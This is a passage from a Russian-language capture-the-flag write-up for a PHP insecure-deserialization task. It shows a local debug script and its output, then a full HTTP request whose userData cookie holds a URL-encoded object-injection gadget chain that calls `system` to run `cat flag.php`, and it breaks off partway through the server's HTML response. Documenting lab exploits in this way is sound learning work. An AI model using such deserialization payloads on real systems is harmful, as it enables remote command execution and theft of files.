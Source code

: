 ```php

$foo = unserialize($payload);
echo $foo->name . "\n";
echo $foo->city . "\n";
?>
```

Работает!

```sh
└─$ php try_to_debug_task2.php
Ivan
ololo
Fri Apr  5 09:03:50 AM MSK 2024
```

Пробуем отправить пейлоад в куке, поменяв команду `date` на `cat flag.php` и ее длину (`s:4`-> `s:12`), и закодировав в URL:

```
GET / HTTP/2
Host: task2.ctf.singleton-security.ru
Cookie: userData=O%3a4%3a"User"%3a3%3a{s%3a4%3a"name"%3bs%3a4%3a"Ivan"%3bs%3a3%3a"age"%3bO%3a12%3a"EventHandler"%3a3%3a{s%3a5%3a"event"%3bs%3a12%3a"cat flag.php"%3bs%3a6%3a"events"%3bO%3a10%3a"UserLogger"%3a2%3a{s%3a8%3a"updaters"%3ba%3a1%3a{s%3a11%3a"handleEvent"%3bs%3a6%3a"system"%3b}s%3a11%3a"logFilePath"%3bs%3a16%3a"/tmp/logfile.log"%3b}s%3a11%3a"logFilePath"%3bs%3a16%3a"/tmp/logfile.log"%3b}s%3a4%3a"city"%3bs%3a5%3a"ololo"%3b}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://task2.ctf.singleton-security.ru/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

Ответ:

```html
HTTP/2 200 OK
Date: Fri, 05 Apr 2024 06:01:35 GMT
Content-Type: text/html; charset=UTF-8
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Strict-Transport-Security: max-age=31536000; includeSubDomains

<!DOCTYPE html>
<html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Сбор данных</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
<div class="container">
    <div>
        <h1>Заполните форму</h1>
    </div>
    <form action="" method="post">
        <div class="form-group">
            <label for="name">Имя:</label>
            <input type="text" id="name" name="name" required>
```